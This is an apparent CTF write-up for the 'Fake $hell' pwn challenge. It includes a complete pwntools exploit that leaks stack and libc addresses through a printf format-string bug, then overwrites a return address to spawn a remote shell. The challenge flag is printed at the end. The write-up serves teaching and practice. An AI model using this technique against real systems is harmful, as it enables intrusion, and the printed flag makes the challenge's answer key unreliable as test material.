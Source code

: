 # Fake $hell

### Description
```
While learning programming, I wrote a small fake terminal in C, it's very simple very few
supported commands, and only safe operations (no unsafe system() calls for example).
It is accessible at: terminal.challs.shellmates.club:1337

Goal: Prove you can escape from the fake shell to the real shell.
```
![alt challenge](./fakeshell.jpg)
```
pwndbg> checksec 
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    PIE enabled
```
#### How not to solve a pwn challenge

Here is the ![Terminal](./terminal) binary and the ![libc](./libc-2.27.so) file.<br>
When we connect using netcat and check the supported commands, we find these eight commands<br>
```
mate@pwnable:/ $ help
Supported commands
ls	id	whoami	echo	printf
cat	pwd	cd	help	exit
mate@pwnable:/ $
```
good, we can use printf() to leak addresses to bypass ASLR and write anywhere in memory<br>
by looking at the decompiled binay with ghidra we find an interessting function process_cmd()<br>
which executes the parced command and return, we will overwrite its return address to spawn<br>
a shell using one gadget:<br>
```
$ one_gadget libc-2.27.so 
0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
in this ![python script](./exploit.py) i leaked rbp to calculate the address of the format string<br>
and libc_start_main (the return address of main) to calculate the address of one gadget at run time<br>
```python
#!/usr/bin/env python2
from pwn import *
from time import sleep


one_gadget_offset = 0xe87f5

while True:
    sleep(2)
    try:
        s = remote ('terminal.challs.shellmates.club', 1337)
    except:
        continue
    #leaking rbp and calculating the return address
    payload = 'printf %8$lp'
    s.sendline(payload)
    s.recvuntil('0x')
    ret  = int(s.recv(12), 16) - 0x418
    ret1 = p64(ret)
    ret2 = p64(ret + 2)
    ret3 = p64(ret + 4)
    log.info('return address: '+ str(hex(ret)))

    #leaking libc_start_main address and calculating one gadget address
    payload = 'printf %141$lp'
    s.sendline(payload)
    s.recvuntil('0x')
    libc_start_main = int(s.recv(12), 16)
    one_gadget = libc_start_main + one_gadget_offset
    log.info('one gadget address: '+ str(hex(one_gadget)))

    #calculating lenght for %n to overwrite the return address with one gadget
    length1 = (one_gadget & 0xffff) - 1
    length2 = (one_gadget >> 16 & 0xffff) - length1 -1
    length3 = (one_gadget >> 32 & 0xffff) - length1 - length2 -1

    #to construct the address two bytes at the time, the lengths have to be from smaller to bigger
    if (length2 < 0) or (length3) < 0:
        log.info('bad address, try again.')
        s.close()
        continue


    #overwriting the return address with one gadget address
    payload  = 'printf a'
    payload += '%' + str(length1) + 'd'
    payload += '%16$n'
    payload += '%' + str(length2) + 'd'
    payload += '%17$n'
    payload += '%' + str(length3) + 'd'
    payload += '%18$nh'
    payload  = payload.ljust(0x30, '\0')
    payload += ret1 + ret2 + ret3

    #the constraint of one gadget is [rsp+0x70] == NULL
    payload  = payload.ljust(0x400, '\0')

    s.sendline(payload)
    s.interactive()
    s.close()
```
Once we have a shell on the server, we find the source code files [terminal.c](./terminal.c) and [terminal.h](./terminal.h) and the flag!
# Flag
```
$ cat flag.txt
shellmates{f4ke_term1nal_r3al_pr1%ntf!}
$
```
